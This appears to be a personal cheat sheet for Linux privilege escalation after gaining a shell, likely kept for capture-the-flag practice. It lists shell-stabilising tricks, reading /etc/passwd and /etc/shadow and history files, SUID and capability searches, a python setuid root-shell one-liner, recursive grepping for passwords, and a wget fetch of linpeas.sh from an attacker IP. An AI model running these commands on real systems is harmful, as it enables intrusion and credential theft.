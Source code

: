
short:
id
sudo -l
ls -la /opt
cat /etc/crontab


Start
	`pwd`
	`ls -la`
	`ls -la *` for files in `~`
	check history files `cat ~/.*history`

Stabilize shell and make it interactive
	`python3 -c 'import pty;pty.spawn("/bin/bash")'`
	or `python -c 'import pty;pty.spawn("/bin/bash")'` if ooold python
	Ctrl+z
	`stty raw -echo; fg` (ctrl+c and other special chars sent + turning of echo)
	`export TERM=xterm`

User info
	`id` privilege level and group memberships
	`whoami`

Machine
	`hostname`
	`cat /etc/os-release`
	`uname -a`
	`cat /proc/version` also gcc info
	`cat /etc/issue`

Other
	`env` show environment variables
	`history`

find users on machine
	`cat /etc/passwd` users and might find info on services through their accounts
	~/ `ls -la ..`
	check permissions on other users directories

File system - interesting files?
	`ls -la /opt`
	`ls -la /var/backup`
	check logs in `/var/log`
	are there email? how to find? `/var/mail` `/var/spool/mail`
	is `/etc/shadow` readable/writeable
	is `/etc/passwd` writeable

Check config files
	`cat /etc/exports` nfs config file

What's scheduled
	`crontab -l` lists jobs for active user
	`cat /etc/crontab` list system wide jobs
	[[cron - crontab]]
	...

Permission info
	`sudo -l` list all commands your user can run using `sudo`
	Find SUID binaries
		`find / -perm -u=s -type f -exec ls -la {} \; 2>/dev/null`
	Find SGID binaries
		`find / -perm -g=s -type f -exec ls -la {} \; 2>/dev/null`
	Find SUID and SGID binaries
		`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -la {} \; 2> /dev/null`
		`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -la {} + 2> /dev/null|cat`
		compare to [gtfobins](https://gtfobins.github.io/)
	Find sticky-bit directories, missing on tmp? (restricted deletion flag - other users can't overwrite/delete files in the dir)
		`find / -perm -1000 -type d 2>/dev/null`

Our permissions
	Find writable files
		`find /etc -writable -ls 2>/dev/null`
	Find files with permissions for your group (if user has extra groups)
		`find / -type f -group `mygroup` -exec ls -l {} + 2>/dev/null`
	Find write exec perm directories
		`find / -perm -o x -type d 2>/dev/null`
	Find files with capability "permissions"
		`getcap -r / 2>/dev/null`
	Find files with root owner, our group and group write permissions
		`find / -type f -user root -group <your-group> -perm -g=w -exec ls -l {} + 2> /dev/null|cat`

if setcap has suid permissions
	`setcap cap_setuid+ep ./python3`
	`getcap -r / 2>/dev/null`
	`./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

check for ssh keys
	`/home/<user>/.ssh`
	Can we add a user
		[Dirty C0w](https://dirtycow.ninja/) 
		writeable /etc/shadow or /etc/passwd

what processes are running
	`ps aux|cat` show processes for all users (a), display user that launched the process (u), show processes not attached to a terminal (x)
	`ps auxf|cat` can see all the things!!! thanks stderr_dk
	`ps axjf` tree style (f)
	`ps axf`
	are we in a docker container? tiny number of processes
	[[pspy]]

Open ports
	`ss -tulpn`
	`netstat -antplue`
	`netstat -ano`
	`lsof -i -P`

finding files, like flags:
	`find / -type f -name flag2.txt 2> /dev/null`

if it's a web server with php:
	cat /var/www/html/configuration.php or grep for password
---

search in logfiles and binaries for usernames and passwords
- `strings filename | grep -i -E "user|name|pass" -C5`
- `grep -i -E "user|name|pass" -C5 file1 file2` for text files and logs..

Recursively strings + grep
- `find [dirname] -type f -exec sh -c 'strings "$1" | grep -i -E "user|name|pass" -C5' sh {} \;`

Recursively strings +/ grep only using strings for binaries
- `find [dirname] -type f -exec sh -c 'file "{}" | grep -q "text" && grep -i -E "user|name|pass" -C5 "{}" || strings "{}" | grep -i -E "user|name|pass" -C5' \;`

if we found a git repo or web dir on the machine
 in dir, do:
 `grep -ri user`
 `grep -ri pass`
 one level?

---

network
	`ifconfig` what interfaces exist..
	`ip route` check this with route table


---

Use tools
	[[enum4linux|enum4linux]]
	[[linpeas]] [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
	`wget 10.18.21.236:8000/enum/linpeas.sh`
	[LinEnum](https://github.com/rebootuser/LinEnum)
	[LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
	[Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
	[Linux Priv Checker](https://github.com/linted/linuxprivchecker)

